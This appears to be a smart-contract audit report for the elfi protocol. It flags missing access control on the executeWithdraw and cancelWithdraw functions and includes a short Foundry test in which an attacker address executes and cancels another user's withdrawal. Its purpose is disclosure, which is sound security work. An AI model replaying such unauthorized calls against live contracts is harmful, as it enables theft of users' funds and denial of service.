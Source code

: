 Macho Sky Baboon

high

# Lack of Access Control in executeWithdraw and cancelWithdraw

## Summary
The functions `executeWithdraw` and `cancelWithdraw` are marked as external, allowing any address to call them. This absence of access control permits unauthorized users to execute or cancel withdrawal requests, potentially resulting in unauthorized fund transfers or denial of service attacks.
## Vulnerability Detail

## Impact

* Unauthorized Fund Transfers: Malicious actors can execute withdrawal requests they do not own, leading to unauthorized transfers of funds from the contract.
* Denial of Service: Malicious actors can cancel legitimate withdrawal requests, preventing users from accessing their funds and causing a denial of service.

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/process/AssetsProcess.sol#L167
POC
```js
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import "forge-std/Test.sol";
import "../contracts/AssetsProcess.sol";
import "../contracts/mocks/MockVault.sol";
import "../contracts/mocks/MockWithdraw.sol";

contract AssetsProcessTest is Test {
    AssetsProcess assetsProcess;
    MockVault mockVault;
    MockWithdraw mockWithdraw;

    address owner = address(0x1);
    address attacker = address(0x2);
    address token = address(0x3);

    function setUp() public {
        mockVault = new MockVault();
        mockWithdraw = new MockWithdraw();
        assetsProcess = new AssetsProcess();

        vm.startPrank(owner);
        assetsProcess.createWithdrawRequest(token, 100);
        vm.stopPrank();
    }

    function testExecuteWithdrawUnauthorized() public {
        uint256 requestId = 1;

        vm.startPrank(attacker);
        assetsProcess.executeWithdraw(requestId, Withdraw.Request({
            account: owner,
            token: token,
            amount: 100
        }));
        vm.stopPrank();
    }

    function testCancelWithdrawUnauthorized() public {
        uint256 requestId = 1;

        vm.startPrank(attacker);
        assetsProcess.cancelWithdraw(requestId, Withdraw.Request({
            account: owner,
            token: token,
            amount: 100
        }), bytes32("Unauthorized"));
        vm.stopPrank();
    }
}
```
```
## Tool used

Manual Review

## Recommendation
Implement access control to restrict these functions to authorized users. Utilize role-based access control mechanisms, such as Ownable or AccessControl from OpenZeppelin.
